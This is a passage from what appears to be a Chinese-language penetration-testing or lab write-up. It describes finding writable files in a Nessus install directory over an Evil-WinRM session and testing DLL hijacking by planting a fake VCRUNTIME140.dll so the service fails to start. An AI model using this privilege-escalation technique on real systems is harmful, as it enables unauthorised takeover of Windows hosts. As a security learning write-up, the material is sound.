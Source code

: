 发现`Nessus`的目录下的文件我们拥有完全权限

可以注意到许多`DLL`文件，并且我们也存在所有权限，所以我们可以尝试`DLL`劫持

首先看`nessus`有哪些可以劫持的DLL，首先我们查看`nessus-service.exe` 引用了哪些`DLL` ，这里选择`VCRUNTIME140.dll`进行尝试

![image.png](image%2019.png)

我们首先创建一个假的`VCRUNTIME140.dll`进行文件进行测试，让`Nessus`不能启动成功

```c
*Evil-WinRM* PS C:\program files\tenable\Nessus> echo "TEST" > VCRUNTIME140.dll
*Evil-WinRM* PS C:\program files\tenable\Nessus> dir
    Directory: C:\program files\tenable\Nessus
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/18/2024  10:35 AM              1 .winperms
-a----          5/9/2024  11:30 PM        2471544 fips.dll
-a----          5/9/2024  11:30 PM        5217912 icudt73.dll
-a----          5/9/2024  11:30 PM        1575032 icuuc73.dll
-a----          5/9/2024  11:30 PM        4988536 legacy.dll
-a----          5/9/2024  11:06 PM         375266 License.rtf
-a----          5/9/2024  11:37 PM       11204728 nasl.exe
-a----          5/9/2024  11:31 PM         264824 ndbg.exe
-a----          5/9/2024  11:06 PM             46 Nessus Web Client.url
-a----          5/9/2024  11:33 PM          38520 nessus-service.exe
-a----          5/9/2024  11:37 PM       11143800 nessuscli.exe
-a----          5/9/2024  11:38 PM       11925624 nessusd.exe
-a----          1/8/2025   3:02 PM             14 VCRUNTIME140.dll
```

重启测试一下`nessus`有没有启动，直接重新扫描一下端口，可以看到`8834`端口没有启动，所以劫持成功了

